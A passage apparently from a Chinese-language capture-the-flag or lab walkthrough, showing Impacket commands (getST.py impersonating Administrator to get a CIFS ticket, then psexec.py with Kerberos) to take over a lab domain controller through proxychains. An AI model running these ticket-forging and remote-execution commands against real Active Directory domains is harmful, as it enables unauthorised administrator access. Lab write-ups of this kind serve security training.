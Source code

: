 接下来同之前一样，申请 ST，导入票据，无密码登录即可。

```plain
proxychains getST.py xiaorang.lab/'TEST2$':'P@ssw0rd' -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
```

[![](assets/1707954847-b3e83afc213bd8dbfa50f63cd4b594b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165559-0b9f3cd8-c729-1.png)

```plain
export KRB5CCNAME=Administrator@cifs_XR-DC01.xiaorang.lab@XIAORANG.LAB.ccache
proxychains python3 psexec.py Administrator@XR-DC01.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13
```
